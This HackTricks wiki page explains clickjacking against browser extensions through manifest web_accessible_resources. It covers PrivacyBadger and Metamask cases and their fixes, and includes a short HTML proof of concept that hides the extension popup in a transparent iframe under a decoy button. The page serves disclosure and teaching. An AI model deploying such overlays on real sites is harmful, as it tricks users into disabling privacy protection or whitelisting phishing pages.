# BrowExt - ClickJacking

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

This page is going to abuse a ClickJacking vulnerability in a Browser extension.\
If you don't know what ClickJacking is check:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Extensions contains the file **`manifest.json`** and that JSON file has a field `web_accessible_resources`. Here's what [the Chrome docs](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) say about it:

> These resources would then be available in a webpage via the URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, which can be generated with the **`extension.getURL method`**. Allowlisted resources are served with appropriate CORS headers, so they're available via mechanisms like XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

The **`web_accessible_resources`** in a browser extension are not just accessible via the web; they also operate with the extension's inherent privileges. This means they have the capability to:

* Change the extension's state
* Load additional resources
* Interact with the browser to a certain extent

However, this feature presents a security risk. If a resource within **`web_accessible_resources`** has any significant functionality, an attacker could potentially embed this resource into an external web page. Unsuspecting users visiting this page might inadvertently activate this embedded resource. Such activation could lead to unintended consequences, depending on the permissions and capabilities of the extension's resources.

## PrivacyBadger Example

In the extension PrivacyBadger, a vulnerability was identified related to the `skin/` directory being declared as `web_accessible_resources` in the following manner (Check the original [blog post](https://blog.lizzie.io/clickjacking-privacy-badger.html)):

```json
"web_accessible_resources": [
  "skin/*",
  "icons/*"
]
```

This configuration led to a potential security issue. Specifically, the `skin/popup.html` file, which is rendered upon interaction with the PrivacyBadger icon in the browser, could be embedded within an `iframe`. This embedding could be exploited to deceive users into inadvertently clicking on "Disable PrivacyBadger for this Website". Such an action would compromise the user's privacy by disabling the PrivacyBadger protection and potentially subjecting the user to increased tracking. A visual demonstration of this exploit can be viewed in a ClickJacking video example provided at [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

To address this vulnerability, a straightforward solution was implemented: the removal of `/skin/*` from the list of `web_accessible_resources`. This change effectively mitigated the risk by ensuring that the content of the `skin/` directory could not be accessed or manipulated through web-accessible resources.

The fix was easy: **remove `/skin/*` from the `web_accessible_resources`**.

### PoC

```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
    width: 430px;
    height: 300px;
    opacity: 0.01;
    float: top;
    position: absolute;
}

#stuff {
    float: top;
    position: absolute;
}

button {
    float: top;
    position: absolute;
    top: 168px;
    left: 100px;
}

</style>

<div id="stuff">
    <h1>
    Click the button
    </h1>
    <button id="button">
      click me
    </button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```

## Metamask Example

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). In this case, Metamask fixed the vulnerability by checking that the protocol used to access it was **`https:`** or **`http:`** (not **`chrome:`** for example):

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

**Another ClickJacking fixed** in the Metamask extension was that users were able to **Click to whitelist** when a page was suspicious of being phishing because of `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. As that page was vulnerable to Clickjacking, an attacker could abuse it showing something normal to make the victim click to whitelist it without noticing, and then going back to the phishing page which will be whitelisted.

## Steam Inventory Helper Example

Check the following page to check how a **XSS** in a browser extension was chained with a **ClickJacking** vulnerability:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## References

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
